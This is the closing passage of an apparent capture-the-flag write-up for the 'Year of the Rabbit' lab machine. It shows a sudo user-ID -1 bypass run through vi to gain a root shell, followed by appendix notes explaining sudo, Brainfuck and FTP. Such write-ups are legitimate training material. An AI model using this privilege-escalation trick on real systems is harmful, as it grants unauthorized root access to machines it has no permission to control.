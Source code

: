 ```bash
gwendoline@year-of-the-rabbit:~$ sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt

[REDACTED] - VI INTERFACE
```

```bash
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
# 
```

# Appendix

## SUDO

<aside>
💡

sudo in Linux stands for "superuser do" and is a command that allows a permitted user to execute commands as the superuser (or another user) with elevated privileges. By default, when you run a command with sudo, it is executed with the privileges of the root user (the superuser). The root user has unrestricted access to all files and commands on the system. When a user runs a command with `sudo`, they temporarily escalate their privileges. This is useful for performing administrative tasks without logging in as the root user.

</aside>

## BRAINFUCK

<aside>
💡

Brainfuck is an esoteric programming language known for its extreme minimalism and challenging syntax. It was created by Urban Müller in 1993 with the goal of designing a language with the smallest possible compiler size while still being Turing complete, meaning it can theoretically perform any computation given enough time and memory. Brainfuck is more of a brain teaser or puzzle than a practical programming language. Programmers use it to challenge themselves or for fun, trying to write complex programs in the most minimalistic way possible.

</aside>

## FTP (File Transfer Protocol)

<aside>
💡

FTP (File Transfer Protocol) is a standard network protocol used to transfer files between a client and a server over a TCP-based network, such as the internet. It allows users to upload, download, delete, rename, move, and copy files on a server. FTP follows a client-server model where a client connects to an FTP server to perform file operations. The server hosts the files, while the client accesses the files through commands. The client and server establish a control connection on port 21. This connection is used to send FTP commands and responses (e.g., to change directories or list files). When a file transfer occurs, a separate data connection is established, typically on port 20 or dynamically chosen ports. The actual file data is sent over this connection.

</aside>